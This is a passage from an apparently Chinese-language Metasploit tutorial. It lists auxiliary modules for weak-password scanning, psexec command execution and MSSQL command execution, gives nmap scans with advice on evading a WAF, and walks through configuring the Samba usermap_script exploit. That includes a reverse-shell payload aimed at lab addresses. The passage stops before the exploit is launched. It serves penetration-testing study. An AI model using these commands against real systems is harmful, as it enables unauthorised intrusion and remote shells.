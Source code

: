 |           |         | ssh           | ssh_login      | SSH登录测试     |
|           |         | mysql         | mysql_login    | MySQL弱口令扫描  |
|           | admin   | mysql         | mysql_enum     | MySQL枚举     |
|           |         |               | mysql_sql      | MySQL语句执行   |
|           |         | smb           | psexec_command | SMB登录且执行命令  |
| admin     | mssql   | mssql_enum    |                | MSSQL枚举     |
|           |         | mssql_exec    |                | MSSQL执行命令   |
|           |         | mssql_sql     |                | MSSQL查询     |
| scanner   | mssql   | mssql_ping    |                | MSSQL主机信息扫描 |
|           |         | mssql_login   |                | MSSQL弱口令扫描  |
|           | vnc     | vnc_none_auth |                | VNC空口令扫描    |

### 使用内嵌Nmap扫描

-Pn或-p0指不使用ping，假定所有主机存活，可穿waf，避免被waf发现。

```
nmap -O -Pn 192.168.31.250
```

## 漏洞利用

使用内嵌nmap扫描端口及服务：

```
nmap -sV 192.168.172.134
```

发现运行Samba 3.x服务，搜索Samba漏洞利用模块：

```
search samba
```

选择“Excellent”攻击模块：

```
info exploit/multi/samba/usermap_script
use exploit/multi/sambas/usermap_script
```

选择Linux攻击载荷，这里选择基础的反向攻击载荷：

```
set PAYLOAD cmd/unix/reverse
```

设置参数：

```
set RHOST 192.168.172.134
set RPORT 445
set LHOST 192.168.172.136
```
